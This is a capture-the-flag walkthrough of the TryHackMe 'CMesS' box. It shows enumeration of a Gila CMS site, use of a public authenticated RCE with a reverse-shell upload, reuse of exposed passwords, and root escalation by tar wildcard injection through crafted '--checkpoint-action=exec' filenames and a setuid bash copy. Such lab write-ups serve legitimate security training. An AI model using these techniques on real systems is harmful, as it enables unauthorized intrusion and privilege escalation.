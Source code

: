 ```yaml
---
layout: post
title: "TryHackMe: CMesS"
categories: TryHackMe
published: true
---
```


Hello H4x0rs! Are you crazy enough to root this box? Of course I do! Let's penetrate Gila CMS.

![banner](/assets/pictures/tryhackme/gilacms.png)


## Reconnaissance

`nmap  -sC  -p-  -sV  $IP  -oN  nmap.txt  --vv`

1. -sC: This is the switch for scanning common vuln using common script
2. -p-: This is the switch to scan all possible opened ports of 65535
3. -sV: This is the switch for scanning the running services 
4. -oN: This is the switch to output the result in TXT format.
5. --vv: Advance verbose

Nmap result:
```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9b652d3939a3850b4233bfd210c051f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCvfxduhH7oHBPaAYuN66Mf6eL6AJVYqiFAh6Z0gBpD08k+pzxZDtbA3cdniBw3+DHe/uKizsF0vcAqoy8jHEXOOdsOmJEqYXjLJSayzjnPwFcuaVaKOjrlmWIKv6zwurudO9kJjylYksl0F/mRT6ou1+UtE2K7lDDiy4H3CkBZALJvA0q1CNc53sokAUsf5eEh8/t8oL+QWyVhtcbIcRcqUDZ68UcsTd7K7Q1+GbxNa3wftE0xKZ+63nZCVz7AFEfYF++glFsHj5VH2vF+dJMTkV0jB9hpouKPGYmxJK3DjHbHk5jN9KERahvqQhVTYSy2noh9CBuCYv7fE2DsuDIF
|   256 21c36e318b85228a6d72868fae64662b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGOVQ0bHJHx9Dpyf9yscggpEywarn6ZXqgKs1UidXeQqyC765WpF63FHmeFP10e8Vd3HTdT3d/T8Nk3Ojt8mbds=
|   256 5bb9757805d7ec43309617ffc6a86ced (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFUGmaB6zNbqDfDaG52mR3Ku2wYe1jZX/x57d94nxxkC
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Gila CMS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-robots.txt: 3 disallowed entries 
|_/src/ /themes/ /lib/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Only 2 services are running, let's take a look at port 80 and examine that particular CMS.

## Enumeration
![webpage](/assets/pictures/tryhackme/cmess-webpage.png)

It's only a simple Gila CMS webpage; there's nothing interesting here. Gobuster results also show nothing in particular. Thus, I decided to find any active subdomain.

```bash
/index                (Status: 200) [Size: 3851]
/about                (Status: 200) [Size: 3353]
/search               (Status: 200) [Size: 3851]
/blog                 (Status: 200) [Size: 3851]
/login                (Status: 200) [Size: 1580]
/1                    (Status: 200) [Size: 4078]
/01                   (Status: 200) [Size: 4078]
/category             (Status: 200) [Size: 3862]
/0                    (Status: 200) [Size: 3851]
/feed                 (Status: 200) [Size: 735]
/themes               (Status: 301) [Size: 318] [--> http://cmess.thm/themes/?url=themes]
/admin                (Status: 200) [Size: 1580]
```
---
`gobuster dns -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -d cmess.thm`
> Found: dev.cmess.thm

I found admin password on this page!

![dev.cms](/assets/pictures/tryhackme/dev.cms.png)

---
## Gaining access
Grab that exposed credential and log in as andre. The version of this GILA CMS is `1.10.9`. I searched this version to look for any public exploits and found Authenticated Remote Code Execution (RCE) in the Exploit database.

[Exploit DB - Gila CMS RCE](https://www.exploit-db.com/exploits/51569)

Upon running this exploit, a reverse shell can be uploaded without issue but the reverse connection is failed. So I decided to upload my own reverse shell using the same method by bypassing file upload restriction.

![upload](/assets/pictures/tryhackme/cmess3.png)

and ..... we got a shell!

```bash
└─# nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.9.58.250] from (UNKNOWN) [10.10.95.52] 36668
Linux cmess 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 22:34:47 up 55 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ id; whoami
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data
```

## User's flag

I found a juicy information in `/opt/.password.bak`

```
$ cat /opt/.password.bak
andres backup password
UQfsdCB7aAP6
```
ssh into andre and grab a user flag!

![user-flag](/assets/pictures/tryhackme/cmess-userflag.png)

---
## Privilege Escalation

> cat /etc/crontab

Root is running a cronjob to backup andre directory. Let's take a look at this scenario.
> */2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *

```
andre@cmess:~/backup$ cat note 
Note to self.
Anything in here will be backed up!
```

Every 2 min, file and folder that is stored here (`/backup/`) will be backed up and compressed into a tarball in the /tmp directory, as there is a wildcard (*) in the `-zcf /tmp/andre_backup.tar.gz *` command. We can take advantage of this functionality by adding malicious commands to the first checkpoint.

[Source:GtfoBins](https://gtfobins.github.io/gtfobins/tar/)

---
> **Create a bash script in /backup directory**
>>`echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash" > exploit.sh`
>>>It will copy bash binary into /tmp directory and give it setuid and setgid permission.

> **Create a tar utility checkpoint**
>>`touch /home/andre/backup/--checkpoint=1`
>>>It is for displaying a progress message after one record.

> **Create another utility checkpoint** 
>>`touch /home/andre/backup/--checkpoint-action=exec=sh\ exploit.sh`
>>>After every checkpoint, it will run the specified action. In this case, tar will run exploit.sh.

---
Now let's wait for 2 minutes and gain a root shell!

> `/tmp/bash -p`

![root](/assets/pictures/tryhackme/cmess-root.png)

---

# ROOTED!